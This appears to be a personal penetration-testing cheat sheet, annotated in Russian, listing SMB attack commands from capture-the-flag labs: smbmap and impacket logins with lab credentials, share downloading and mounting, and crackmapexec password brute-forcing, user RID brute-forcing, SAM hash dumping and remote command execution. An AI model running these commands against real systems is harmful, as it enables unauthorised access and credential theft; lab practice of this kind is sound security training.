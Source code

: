smbmap -u '' -p '' -H 10.10.149.120



smbmap -u 'john' -p 'nt:lm_hash' -H 192.168.50.200

smbmap -d active.htb -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' -H 10.10.10.100      !Для домена!

impacket-smbclient Tiffany.Molina:NewIntelligenceCorpUser9876@10.10.10.248
impacket-smbclient -k absolute.htb/svc_smb@dc.absolute.htb -target-ip 10.10.11.181 (перед этим получить tgt и  export KRB5CCNAME= )
- shares - list available shares
- use {sharename} - connect to an specific share

Скачать сетевую шару!!!

smbget -R smb://10.10.11.207/Development

Примонтировать smb шару

mount -t cifs //10.10.10.134/Backups /mnt/smb


# crackmapexec

Показать доступные пользователю шары

	crackmapexec smb 10.10.10.182 -u r.thompson -p rY4n5eva --shares

Брут локального администратора 

	cme smb discovery/hosts/windows.txt --local-auth -u Administrator -p passwords.txt
 
выполнение комманнд

crackmapexec 192.168.50.200 -u 'Administrator' -p 'Pass1' 'Pass2' -x ipconfig

crackmapexec smb 10.10.38.153 -u 'nik' -p 'ToastyBoi!' --shares  -Доступные шары для узера

crackmapexec smb 10.10.11.222 -u '' -p '' --shares   -анонимный вход

парольные политики

crackmapexec 192.168.50.200 -u 'Administrator' -p 'Pass1' 'Pass2' --pass-pol

crackmapexec 192.168.50.200 -u 'Administrator' -p 'Pass1' 'Pass2' -local-auth --sam

Перечисление открытых шар сети

crackmapexec smb 192.168.50.200/24

crackmapexec smb 192.168.50.162 -u 'Kevin' -p dict.txt Побрутить пароли в СМБ

crackmapexec smb razor.thm -u wili -p poteto --rid-brute брутит пользователей домена

crackmapexec smb 10.10.10.248 -u Tiffany.Molina -p NewIntelligenceCorpUser9876 --users  (Показать всех пользователей домена)


https://wiki.porchetta.industries/smb-protocol/enumeration/enumerate-domain-users

-------------------------------------------------снаружи домена 
сенить пароль пользователя smb
